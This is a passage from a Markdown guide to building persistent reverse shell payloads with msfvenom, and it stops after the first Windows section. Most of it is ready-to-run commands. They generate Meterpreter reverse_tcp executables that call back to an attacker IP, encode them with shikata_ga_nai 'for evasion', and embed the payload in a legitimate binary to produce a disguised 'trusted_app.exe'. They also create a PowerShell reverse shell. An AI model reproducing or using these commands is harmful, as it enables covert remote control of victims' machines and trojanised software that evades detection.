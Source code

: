 # Creating Persistent Reverse Shells with MSFVenom

This guide covers various methods to create reverse shell payloads with persistence using `msfvenom`.

## Table of Contents
- [Basic Persistent Payload](#basic-persistent-payload)
- [Windows Persistence Methods](#windows-persistence-methods)
- [Linux Persistence Methods](#linux-persistence-methods)
- [Multi-Handler Setup](#multi-handler-setup)
- [Advanced Persistence Techniques](#advanced-persistence-techniques)
- [Considerations and Best Practices](#considerations-and-best-practices)

---

## Basic Persistent Payload

### Method 1: Built-in Persistence Flag
```bash
# Windows executable with thread persistence
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 \
  -f exe \
  -o persistent_shell.exe \
  -k  # Keeps original executable functional

# Alternative with encoding for evasion
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 \
  -f exe \
  -e x86/shikata_ga_nai \
  -i 3 \
  -k \
  -o stealth_persistent.exe
```

### Method 2: Embedded in Legitimate Binary
```bash
# Embed payload in legitimate Windows binary
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 \
  -f exe \
  -x /path/to/legitimate.exe \
  -k \
  -o trusted_app.exe
```

---

## Windows Persistence Methods

### Registry-Based Persistence
```bash
# Create PowerShell payload
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=YOUR_IP LPORT=4444 \
  -f psh \
  -o shell.ps1
```
